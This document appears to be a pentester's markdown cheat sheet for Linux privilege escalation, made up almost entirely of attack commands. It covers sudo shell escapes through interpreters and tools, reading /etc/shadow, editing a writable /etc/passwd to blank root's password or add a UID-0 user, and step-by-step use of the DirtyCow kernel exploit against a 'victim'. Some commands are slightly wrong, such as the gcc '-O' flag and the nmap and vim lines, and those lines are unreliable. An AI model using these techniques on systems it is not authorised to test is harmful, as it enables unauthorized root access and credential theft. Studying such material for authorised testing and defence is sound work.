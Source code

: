 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Writable files
```
➤ Read/write sensitive files
/etc/passwd
/etc/group
/etc/profile
/etc/shadow

➤ Detect if the file is writable
ls -l /etc/passwd
-rwxrwxrwx. 1 root root 1306 Jan 10 21:30 /etc/passwd

➤ Privesc 01 : Delete the x of the root user in /etc/password
• By deleting the 'x', all users can substitute the root user. 
root:x:0:0:root:/root:/bin/bash
->
root::0:0:root:/root:/bin/bash

➤  Privesc 02 : Add another root user in /etc/password
echo "lexis:x:0:0:test:/root:/bin/bash" >> /etc/passwd
```

## Crontab - Privesc

## DirtyCow

Exploit: Linux Kernel 2.6.22 < 3.9

• https://dirtycow.ninja/

• https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ 4. Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```

